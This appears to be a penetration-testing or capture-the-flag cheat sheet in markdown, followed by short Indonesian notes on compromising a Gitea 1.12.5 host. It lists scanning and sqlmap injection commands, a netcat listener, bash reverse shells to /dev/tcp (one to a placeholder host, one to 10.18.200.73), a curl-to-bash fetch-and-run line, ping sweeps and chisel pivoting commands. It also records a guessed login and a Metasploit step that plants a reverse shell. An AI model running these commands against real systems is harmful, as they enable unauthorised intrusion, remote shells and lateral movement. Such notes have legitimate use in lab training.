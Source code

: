 Command
# Header 1

## Header 2
- nmap -sC -sV -oN enum.nmap -p- -T4 --min-rate=1000 -v  (nmapx)
- dirb http://10.1.2.152 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o diretory.dirb (dirbx)
- sqlmap -r inject --dbs --level 4 --risk 3 --threads 10 --tamper=space2comment,between,randomcase (sqlmapx)

- nc -lvnp 9001
- python -c 'import pty;pty.spawn("/bin/bash")';
- bash -c 'bash -i >& /dev/tcp/CHANGE-THIS/9001 0>&1'
- sudo python3 -m http.server 80
- curl 127.0.0.1/shell.sh | bash
- ps -efa --forest


### Header 3
for i in $(seq 254); do ping 10.1.2.${i} -c1 -W1 & done | grep from
for i in {1.255}; do (ping -c 1 10.1.2.${i} | grep "bytes from"&); done

for i in $(seq 254); do ping 10.1.2.${i} -c1 -W1 & done | grep from
chisel server --socks5 --reverse
./chisel client --fingerprint &lt;Fingerprint&gt; &lt;Attacker IP&gt;:8080 R:8000:&lt;Internal IP&gt;:80

./chisel client --fingerprint &lt;Fingerprint&gt; &lt;Attacker IP&gt;:8080 R:socks

Payload

```
test
asda
```

Set alias

- nmap
- buka port 3000 gitea
- coba guessing password dengan username yang ada
username: askira
password: askira
- mencari kerentanan pada layanan gitea versi 1.12.5
- menggunakan module metasploit untuk memasukan reverse shell
    - listening port 9001 pada local machine
    nc -lvnp 9001
    - memasukan code reverse shell pada target machine
    bash -c 'bash -i >& /dev/tcp/10.18.200.73/9001 0>&1'
    - mengambil flag user.txt
    ![Alt text](images/user.png)
